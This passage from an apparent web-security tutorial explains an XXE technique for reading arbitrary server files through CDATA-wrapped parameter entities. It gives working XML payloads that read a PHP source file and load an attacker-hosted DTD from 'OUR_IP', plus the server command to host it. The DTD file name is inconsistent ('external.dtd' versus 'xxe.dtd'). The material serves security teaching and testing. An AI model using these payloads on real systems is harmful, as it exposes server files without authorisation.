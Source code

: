 In the event that basic XXE won't work or when we are dealing with other web development frameworks, we can utilize the following method to extract any kind of data (including binary data) for any web application backend.

To output data that does not conform to the XML format, we can wrap the content of the external file reference with a `CDATA` tag (e.g. `<![CDATA[ FILE_CONTENT ]]>`). This way, the XML parser would consider this part raw data, which may contain any type of data, including any special characters.

To start, we must first define a `begin` internal entity with `<![CDATA[`, an `end` internal entity with `]]>`, and then place our external entity file in between, and it should be considered as a `CDATA` element, as follows:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
After that, if we reference the `&joined;` entity, it should contain our escaped data. However, there will be times that this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.

To bypass this, we can utilize `XML Parameter Entities`, a special type of entity that starts with a `%` character and can only be used within the DTD. What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined. First create a DTD file named `external.dtd` using the following value:
```dtd
<!ENTITY joined "%begin;%file;%end;">
```
Then start a local server to host the file using Python.
```bash
python3 -m http.server 8080
```

Now we can reference our external entity and print the `&joined` entity we defined above.
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA[">
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY % end "]]>">
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8080/xxe.dtd">
  %xxe;
]>
...
<email>&joined;</email>
```